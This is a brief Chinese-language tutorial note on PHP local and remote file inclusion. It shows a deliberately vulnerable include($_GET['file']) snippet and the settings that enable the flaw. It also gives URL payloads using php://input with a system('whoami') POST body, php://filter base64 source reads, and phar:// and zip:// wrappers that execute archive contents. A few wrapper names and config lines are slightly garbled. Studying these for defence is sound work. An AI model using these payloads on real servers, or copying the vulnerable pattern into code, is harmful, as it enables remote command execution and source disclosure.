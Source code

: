 # 文件包含漏洞

<aside>
💡 开发者将被包含文件设为变量，用于动态调用，导致调用恶意文件或访问协议，造成漏洞

</aside>

1. 实现原理
    - 服务端php.info配置两参数开启
    
    ```toml
    allow_url_fopen=onallow _url_include=on
    ```
    
    - PHP文件中存在对文件的动态包含
    
    ```php
    <?php
    	$file=$_GET['file'];
    	include $file;
    ?>
    ```
    
2. 攻击方式
    - 伪协议攻击
        - `php://input` `≤5.3.0`
            
            <aside>
            💡 配置无需开启allow_url_include
            
            </aside>
            
            ```jsx
            URL index.php?php://input
            ```
            
            ```jsx
            POST <?php system('whoami');?>
            ```
            
        - `php://filter`
            
            <aside>
            💡 查看文件，以Base64的编码打开
            
            </aside>
            
            ```jsx
            URL index.php?file=php://filter/read=convert.base64-encode/resource=index.php
            ```
            
            ```jsx
            URL index.php?file=php://filter/convert.base64-encode/resource=index.php
            ```
            
        - `php://phar` `≥5.3.0`
            
            <aside>
            💡 解析压缩文件里面的文件内容，作为脚本执行，相对路径，绝对路径不限
            
            </aside>
            
            ```jsx
            URL index.php?file=phar://test.zip/target.txt
            ```
            
            ```jsx
            URL index.php?file=phar://D:/phpstudy/www/..../test.zip/target.txt
            ```
            
        - `php://zip` `≥5.2.0`
            
            <aside>
            💡 解析压缩文件内的文件内容，只允许绝对路径
            
            </aside>
            
            ```jsx
            URL index.php?file=zip://D:/phpstudy/www/.../test.zip/target.txt
            ```
            
    - 服务端文件包含攻击
        
        ```jsx
        URL http://.../index.php?file=target.txt
        ```